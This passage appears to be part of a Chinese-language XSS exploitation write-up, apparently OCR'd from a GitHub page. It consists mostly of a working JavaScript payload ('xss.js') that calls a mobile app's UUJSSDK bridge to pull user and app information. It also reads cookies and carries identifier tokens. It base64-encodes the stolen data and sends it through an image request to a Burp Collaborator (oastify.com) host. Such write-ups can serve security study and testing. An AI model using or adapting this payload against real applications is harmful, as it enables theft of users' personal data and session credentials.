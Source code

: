     构造手机客户端信息收集脚本如下：

        const getUserInfo = async function(){
            UUJSSDK.Bridge({api: "get_user_info",cbname: "get_user_info_cb",done: function(res) {
                console.log(res["result"])
                var encoded = encode(JSON.stringify(res["result"]))
                UUJSSDK.Bridge({
                    api: "get_app_info",
                    params: {},
                    done: function(res2) {
                        var encoded2 = encode(JSON.stringify(res2))
                        justSend(api_burp+'?userinfo='+encoded+'&appinfo='+encoded2)
                    }
                });
            }})
        }

5. 完整利用xss.js利用脚本如下：

        // burpsuite collaborator url
        const api_burp = 'https://e9op59j1geov80qd4hiuakntnktch3fr4.oastify.com'

        // 获取cookie信息
        const getCookieValue = (name) => (
            document.cookie.match('(^|;)\\s*' + name + '\\s*=\\s*([^;]+)')?.pop() || ''
        )

        // 构造发送请求
        const myFetch = async (url, token) => {
            let data = await fetch(url, {
                method: 'GET',
                headers: {
                    'Identifier': token,
                },
            })
            let res = await data.json();
            return res
        }

        // 通过img src来向burpsuite collaborator url外送敏感新信息
        const justSend = async url => {
            var Img = new Image
            Img.src = url
        }

        // base64 加解密
        const encode = str => {
            var b64 = btoa(unescape(encodeURIComponent(str)))
            return b64
        }
        const decode = str => {
            var str = decodeURIComponent(escape(atob(str)));
            return str
        }
